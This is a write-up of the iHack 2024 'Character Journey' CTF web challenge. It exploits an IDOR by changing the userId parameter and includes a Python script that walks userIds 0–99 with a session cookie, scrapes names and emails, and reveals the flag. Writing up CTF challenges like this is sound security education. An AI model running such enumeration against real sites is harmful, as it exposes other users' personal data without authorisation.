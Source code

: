 ```yaml
---
title: Character Journey
description: The objective of the "Character Journey" CTF challenge is to find and retrieve the flag from a web application by exploiting IDOR.
date: 2024-07-28 00:00:00+0000
categories:
   - iHack 2024 Preliminary
   - CTF Writeup
tags:
   - Web
weight: 1     
---
```

# Character Journey CTF Challenge Writeup

## Challenge Information
- **Name**: Character Journey
- **Points**: 500
- **Category**: Web
- **Objective**: Find and retrieve the flag from a web application by exploiting vulnerabilities.

![Challenge](challenge.png)

## Solution
To solve the "Character Journey" challenge, follow these steps:

1. **Initial Exploration**:
   - Visit the web page and register for an account.
   - Upon registration, we observed that the application doesn't have notable functionality 
     - Feedback form does not actually send a POST request
     - YouTube link is quite useless 

2. **Investigating User Account Features**:
   - We then focused on the functionality of viewing your own account.
   - While exploring this feature, investigate the URL parameters and other user-specific data.

3. **Identifying the Vulnerability**:
   - Discover an Insecure Direct Object Reference (IDOR) vulnerability by manipulating user IDs in the URL (e.g., changing ID from 1 to 10).
   - Find that some URLs return base64 encoded text chunks.


        ![Found IDOR](<found IDOR.png>)



        ![Base64 Chunks](<base64 chunks.png>)

4. **Brute Force Exploration**:
   - Develop a script to automate the process of testing user IDs from 1 to 100.
   - Run the script to extract all base64 encoded text chunks.



      ```python
      import requests
      from bs4 import BeautifulSoup

      # Function to fetch profile information for a given userId
      def fetch_profile(user_id):
          url = f"http://character-journey.ihack24.capturextheflag.io/profile.php?userId={user_id}"
          headers = {
              "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
              "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
              "Accept-Language": "en-US,en;q=0.5",
              "Accept-Encoding": "gzip, deflate, br",
              "Connection": "close",
              "Referer": "http://character-journey.ihack24.capturextheflag.io/home.php",
              "Cookie": "PHPSESSID=be6885c0ca68d30c985be4b2fee16ebd",
              "Upgrade-Insecure-Requests": "1"
          }
          response = requests.get(url, headers=headers)
          if response.status_code == 200:
              return response.text
          else:
              print(f"Failed to fetch profile for userId: {user_id} with status code: {response.status_code}")
              return None

      # Function to parse HTML and extract username and email
      def parse_profile(html_content):
          soup = BeautifulSoup(html_content, 'html.parser')
          
          # Find <p> tags that contain the Name and Email
          name_tag = soup.find('p', text=lambda x: x and x.startswith('Name:'))
          email_tag = soup.find('p', text=lambda x: x and x.startswith('Email:'))

          if name_tag and email_tag:
              # Extract the text after "Name: " and "Email: "
              name = name_tag.get_text(strip=True).split(': ', 1)[1]
              email = email_tag.get_text(strip=True).split(': ', 1)[1]
              return name, email
          else:
              print("Could not find profile information in HTML content.")
              return None, None

      # Main function to fetch profiles for userId 0-61 and save to a file
      def main():
          with open('profiles.txt', 'w') as file:
              for user_id in range(100):
                  print(f"Fetching profile for userId: {user_id}")
                  html_content = fetch_profile(user_id)
                  if html_content:
                      name, email = parse_profile(html_content)
                      if name and email:
                          file.write(f"userId: {user_id}, Name: {name}, Email: {email}\n")
                      else:
                          file.write(f"userId: {user_id}, Profile information not found\n")
                  else:
                      file.write(f"userId: {user_id}, Failed to fetch profile\n")

      if __name__ == "__main__":
          main()
      ```

5. **Extracting the Flag**:
   - Review the extracted data from the brute force script.
   - Rather than decoding the base64 text, find the flag directly in the data without further processing.



      ![Brute Force](<brute force.png>)


      ![Flag](flag.png)


6. **Flag**: **ihack24{655b7b7ae4c62d726a568eff8914573e}**